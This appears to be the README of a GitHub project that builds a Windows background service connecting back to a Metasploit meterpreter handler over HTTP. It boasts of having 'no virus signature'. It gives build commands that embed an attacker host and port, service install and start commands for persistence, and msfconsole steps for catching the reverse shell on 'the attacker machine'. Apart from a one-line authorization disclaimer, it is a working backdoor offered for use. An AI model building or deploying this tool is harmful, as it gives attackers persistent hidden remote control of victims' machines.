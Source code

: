 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

A simple windows service running on background that connects with a meterpreter session via http  with no virus signature

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) for accepts the reverse connection

```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go get golang.org/x/sys/windows
env GOOS=windows go build -ldflags "-X main.LHOST=10.10.10.2 -X main.LPORT=3000" -o powershell-reverse.exe
```

Change the LPORT and LHOST to match your metasploit handler

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
